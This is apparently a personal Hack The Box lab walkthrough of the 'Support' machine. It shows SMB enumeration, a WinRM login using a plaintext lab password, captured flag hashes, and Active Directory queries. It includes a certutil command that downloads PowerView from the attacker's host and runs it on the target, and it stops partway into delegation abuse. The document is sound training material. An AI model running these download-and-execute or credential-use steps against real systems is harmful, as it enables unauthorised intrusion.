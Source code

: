 ### 17-Jan-24-Wed

https://app.hackthebox.com/machines/Support

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/11ffa5eb-fedd-43ed-ae02-d35bba5b4856)

```
smbclient -L 10.129.227.255 -U anonymous
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d0675d40-748b-4820-8cc0-4c5d8e607df5)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d46d0766-c8e7-4943-bae7-58085a618800)

```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/aa24a18a-f8fe-49d0-aac4-bbfcc6af818f)


```
7c8aba654859b497501fb3d6dbb90a45
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/df56a685-5ebf-434b-ad05-8a2be876bfaa)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2b5a389b-bbac-4c10-81d5-d8127e7993c0)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bcdc9a10-e0c9-4163-8438-06ca29380565)

```
88ff8a8770107e21ac0cb5fe1a04803e
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/54bea238-4b0c-43f9-9289-2847c8767160)

```
Get-ADDomain
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/304c4ced-7ba5-4b85-b79f-6e9a3204b4bd)

```
AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=support,DC=htb
DeletedObjectsContainer            : CN=Deleted Objects,DC=support,DC=htb
DistinguishedName                  : DC=support,DC=htb
DNSRoot                            : support.htb
DomainControllersContainer         : OU=Domain Controllers,DC=support,DC=htb
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-1677581083-3380853377-188903654
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=support,DC=htb
Forest                             : support.htb
InfrastructureMaster               : dc.support.htb
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb}
LostAndFoundContainer              : CN=LostAndFound,DC=support,DC=htb
ManagedBy                          :
Name                               : support
NetBIOSName                        : SUPPORT
ObjectClass                        : domainDNS
ObjectGUID                         : 553cd9a3-86c4-4d64-9e85-5146a98c868e
ParentDomain                       :
PDCEmulator                        : dc.support.htb
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=support,DC=htb
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {dc.support.htb}
RIDMaster                          : dc.support.htb
SubordinateReferences              : {DC=ForestDnsZones,DC=support,DC=htb, DC=DomainDnsZones,DC=support,DC=htb, CN=Configuration,DC=support,DC=htb}
SystemsContainer                   : CN=System,DC=support,DC=htb
UsersContainer                     : CN=Users,DC=support,DC=htb
```

```
whoami /groups
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/09818fca-382d-4c9f-95b9-dfa43b6d80d9)

```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/df99dc88-6e84-4a21-bbde-7e05966a4b06)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c80d4042-2c81-4de1-9b74-9ccfd397b7bd)

```
certutil -urlcache -f http://10.10.16.23/PowerView.ps1 PowerView.ps1
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f29a6990-d0cf-4e95-af2f-8c5ec968639f)

```
./PowerView.ps1
```

```
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```

